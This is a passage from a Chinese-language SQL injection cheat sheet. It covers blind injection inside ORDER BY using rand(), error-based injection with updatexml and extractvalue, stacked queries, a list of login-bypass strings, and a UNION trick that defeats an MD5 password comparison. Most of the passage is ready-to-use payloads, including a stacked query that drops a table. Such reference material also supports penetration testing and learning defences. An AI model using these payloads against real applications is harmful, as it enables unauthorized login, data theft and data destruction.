     |  9 | NULL |
    +----+------+
    ```
    可以看到当rand()为true和false时，排序结果是不同的，所以就可以使用rand()函数构造表达式进行盲注了.
    ```sql
    order by rand(ascii(mid((select database()),1,1))>96)
    ```
    
    ###### 基于报错
    
    *updatexml*
    ```sql
    select * from ha order by updatexml(1,if(1=1,1,user()),1);#查询正常
    select * from ha order by updatexml(1,if(1=2,1,user()),1);#查询报错
    ```
    
    *extractvalue*
    ```sql
    select * from ha order by extractvalue(1,if(1=1,1,user()));#查询正常
    select * from ha order by extractvalue(1,if(1=2,1,user()));#查询报错
    ```

 3. 堆叠注入(Stacking Queries)

    一句代码之中执行多个查询语句，这在每一个注入点都非常有用，尤其是使用SQL Server后端的应用

    ```sql
    ; SELECT * FROM members; DROP members --
    ```
    支持堆叠查询的语言/数据库
    绿色：支持，暗灰色：不支持，浅灰色：未知
    ![堆叠注入情况](http://drops.xmd5.com/full/7eba77f1e9332de0158f5a1ae5de6ca3a1526df1.jpg)


4. 万能密码

    - admin' --   #'
    - admin' #    #'
    - admin'/*	  #'
    - ' or 1=1--  #'
    - ' or 1=1#   #'
    - ' or 1=1/*  #'
    - ') or '1'='1--	#'
    - ') or ('1'='1--	#'	

    ###### 绕过检查MD5哈希的登陆界面

    &emsp;&emsp;如果应用是先通过用户名，读取密码的MD5，然后和你提供的密码的MD5进行比较，那么你就需要一些额外的技巧才能绕过验证。你可以把一个已知明文的MD5哈希和它的明文一起提交，使得程序不使用从数据库中读取的哈希，而使用你提供的哈希进行比较。

    绕过MD5哈希检查的例子(MSP)
    ```sql
    用户名：admin
    
    密码：1234 ' AND 1=0 UNION ALL SELECT 'admin','81dc9bdb52d04dc20036dbd8313ed055
    // 其中81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)
    ```
5. 一些Bypass

